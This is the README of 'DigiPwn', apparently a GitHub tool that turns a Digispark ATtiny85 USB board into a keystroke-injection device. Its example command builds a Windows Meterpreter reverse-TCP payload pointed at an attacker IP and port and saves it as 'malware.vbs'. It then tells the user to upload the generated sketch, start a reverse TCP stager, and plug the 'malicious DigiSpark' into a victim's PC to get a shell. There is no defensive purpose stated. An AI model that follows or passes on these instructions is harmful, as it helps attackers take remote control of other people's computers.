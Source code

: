 # DigiPwn
Digispark KickStarter ATtiny85 USB Development Board The ATtiny85 based mini development board is similar to the Arduino, 
but cheaper and smaller (of course a bit less powerful). With a whole host of shields to extend its functionality and the 
ability to use the familiar Arduino IDE, this board is a great way to jump into microcontroller electronics.

# Requirements
 - [Python 2.7](https://www.python.org/downloads/)
 - [Arduino](https://www.arduino.cc/en/Main/Software)
 - Setup DigiSpark board in Arduino. [Click here for how-to.](https://digistump.com/wiki/digispark/tutorials/connecting).
 - Requires module [impacket](https://github.com/SecureAuthCorp/impacket).
# Installation 
 - First clone the repo
  `git clone https://github.com/zer0overflow/DigiPwn.git`
 - Then run `python DigiPwn.py [HOST] [PORT] [PAYLOAD] [OUTPUT FILE] [FORMAT]`
   
   Example: `python DigiPwn.py 192.168.1.2 8080 windows/meterpreter/reverse_tcp malware.vbs vbs`
   
 - A file named `keystroke_inject.ino` will be created. Upload that code using Arduino.
 
 - The program will ask you if you want to start a reverse tcp stager. Press y and then enter to start one.
 
 - Plug the malcious DigiSpark to victim's PC and **BOOM! You've a shell!**

 Follow me on Instagram
 
 [https://www.instagram.com/zero.overflow](https://www.instagram.com/zero.overflow)
 [My website](https://zer0overflow.github.io/)
